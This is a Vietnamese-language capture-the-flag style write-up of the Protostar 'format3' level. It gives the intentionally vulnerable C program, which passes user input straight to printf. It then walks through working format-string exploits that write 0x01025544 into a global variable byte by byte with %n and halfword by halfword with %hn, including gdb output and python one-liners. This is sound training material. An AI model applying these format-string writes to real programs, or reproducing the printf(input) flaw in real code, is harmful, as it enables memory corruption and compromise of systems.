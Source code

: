 # FORMAT THREE

## About

This level advances from format2 and shows how to write more than 1 or 2 bytes of memory to the process. This also teaches you to carefully control what data is being written to the process memory.

This level is at /opt/protostar/bin/format3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## Solutions

`FORMAT THREE` tiếp tục là một thử thách được nâng cao từ `FORMAT TWO`, chúng ta vẫn cần ghi một giá trị được kiểm soát vào vị trí ta mong muốn - ở đây vẫn là biến toàn cục `target` để nhận được `"you have modified the target :)"` nhưng thay vì là 1 số decimal thì giá trị cần ghi là `0x01025544`.

Khá phức tạp, ta có `0x01025544 = 16930116` là một giá trị decimal thực sự lớn và nếu vẫn tiếp tục dùng cách ghi đè của `FORMAT TWO` thì ta sẽ không nhận được điều mình cần là `target == 0x01025544` vì số lượng ký tự ghi vào quá lớn.

Thay vào đó ta sẽ ghi lần lượt 4 lần vào từng byte tăng dần bắt đầu từ địa chỉ của biến `target` và với các giá trị là `44` `55` `02` `01` - đây là `[little edian]`.

Địa chỉ `target = 0x80496f4`.

```
root@protostar:/opt/protostar/bin# gdb -q ./format3
Reading symbols from /opt/protostar/bin/format3...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x80496f4
(gdb)
```

Thực hiện quét stack ta có chuỗi đầu vào sẽ được định dạng từ parameter thứ 12.

Tôi sẽ không trình bày chi tiết cách tôi ghi từng byte, thay vào đó bạn có thể đọc từ cuốn sách tôi để ở `Documents`.

```
                 0      1      2
hex     | \x44 | \x55 | \x02 | \x01 |
decimal |  68  |  85  |  258 |  513 |
Đã có   |  16  |  68  |  85  |  258 |
Cần     |  52  |  17  |  173 |  255 |
para    |  12  |  13  |  14  |  15  |
Addr:
0x80496xx| f4  |  f5  |  f6  |  f7  |

```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# python -c 'print "\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x" + "%12$n" + "%17x" + "%13$n" + "%173x" + "%14$n" + "%255x" + "%15$n"' | ./format3
                                                   0         bffffac0                                                                                                                                                                     b7fd7ff4                                                                                                                                                                                                                                                              0
you have modified the target :)
```

Cách điền `hn-hn`, bạn có thể tự viết nó khi đã nắm vững hơn cách overwrite everywhere bằng format strings.

```
python -c 'print "\xf4\x96\x04\x08\xf6\x96\x04\x08" + "%" + str(0x5544 - 8) + "x%12$hn" + "%" + str(0x10102 - 0x5544) + "x%13$hn"' | ./format3
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>

Bạn có thể đọc phần Format String của cuốn này:
<https://whitehat.vn/attachments/nghe-thuat-tan-dung-loi-phan-mem-pdf.1430/>



